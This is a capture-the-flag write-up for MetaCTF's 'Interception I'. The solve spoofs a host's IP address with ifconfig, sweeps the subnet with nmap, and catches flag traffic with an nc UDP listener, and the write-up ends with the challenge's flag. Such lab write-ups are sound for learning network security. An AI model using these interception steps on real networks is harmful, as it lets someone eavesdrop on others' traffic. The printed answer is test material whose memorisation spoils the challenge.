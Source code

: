 # Interception I
192.168.0.1 is periodically (once every 4 seconds) sending the flag to 192.168.0.2 over UDP port 8000. Go get it.
ssh ctf-1@host.cg21.metaproblems.com -p 7000

If you get an SSH host key error, consider using
ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" ctf-1@host.cg21.metaproblems.com -p 7000

Note that the connection can take a while to initialize. It will say Granting console connection to device... and then three dots will appear. After the third dot you should have a connection. 

## Solve (Note I did this at 2 AM)
Gotta do some ip spoofing.

1. first changed ip address to spoofy

`ifconfig eth0 192.168.0.2 netmask 255.255.255.0`

2. then do a lil ping to test connection and refresh arp cache so we changed the ip address

`ping 192.168.0.1`

3. then do a lil nmap mappy

`nmap -sn -PU 192.168.0.0/24`

4. then do a lil net catty cat

`nc -lu 192.168.0.2 8000`

`MetaCTF{addr3s5_r3s0lut1on_pwn4g3}`